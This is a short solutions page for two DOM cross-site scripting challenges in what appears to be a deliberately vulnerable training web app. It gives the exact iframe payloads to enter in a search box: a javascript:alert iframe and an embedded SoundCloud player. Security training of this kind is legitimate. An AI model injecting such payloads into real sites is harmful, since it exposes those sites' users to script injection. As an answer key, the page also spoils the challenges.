

# SOLUTIONS

## 1.Dom Xss

### Objective

To Perform a DOM XSS attack with `<iframe src="javascript:alert(`xss`)">`

### Solution

Enter `<iframe src="javascript:alert(`xss`)">` at search box to solve the challenge.


## 2.Bonus Payload

### Objective

To Perform a DOM XSS attack with payload:

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

### Solution

Enter the below payload at search box to solve the challenge.

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```


